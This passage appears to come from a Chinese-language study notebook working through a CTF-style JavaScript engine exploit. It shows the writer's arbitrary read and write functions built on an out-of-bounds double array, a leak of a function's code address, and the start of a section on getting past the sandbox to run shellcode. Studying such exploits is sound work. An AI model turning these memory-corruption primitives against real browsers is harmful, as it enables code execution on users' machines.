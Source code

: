 还有一个问题，题解的code还需要返回`oobDblArr2[0][0]`
哦哦这个是
![](../images/Pasted%20image%2020250530112159.png)
转换出来的


我的代码：
```js
function read(addr, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr-0x10, 2);
  var out = ftoi32(oobDblArr2[0]);
  oobDblArr[dblArrOffset] = oldValue;
  return out;
}


var codeAddr = read(funcAddr + 0x20, (oobDbl2Index - oobDblIndex - 6) >> 1);
console.log("code Addr: " + codeAddr[0].toString(16)+" [1]: "+codeAddr[1].toString(16));

function write(addr, val1, val2, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr-0x10, 2);
  oobDblArr2[0] = i32tof(val1, val2);
  oobDblArr[dblArrOffset] = oldValue;
  return;
}

```


write同理（需要注意和题解不一样，直接填目标地址即可

## 4 绕过沙箱执行shellcode

按照那道CTF题应该搞Wasm的执行面了，但是
![](../images/Pasted%20image%2020250530105748.png)
